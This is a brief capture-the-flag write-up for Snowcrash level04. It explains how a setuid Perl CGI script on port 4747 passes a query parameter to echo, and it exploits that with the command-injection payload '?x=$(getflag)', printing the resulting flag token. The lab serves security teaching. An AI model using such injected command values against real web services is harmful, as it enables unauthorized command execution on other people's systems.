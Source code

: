 # <center>Snowcrash level04</center>

# Explanations

<br/>

## On VM:
> $ ls -l
>> -rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl

> $ cat level04.pl
>> #localhost:4747

> $ curl localhost:4747

- No return, but no error a server is running at this address
- CGI (Common Gateway Interface)
- This server takes a parameter x from the qwery of a web request and displays it with the command echo

> $ curl localhost:4747?x="test"
>> test

<br/>

## On your computer:

- Open your browser and go to <IP_VM>:4747?x=$(getflag)
>> Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap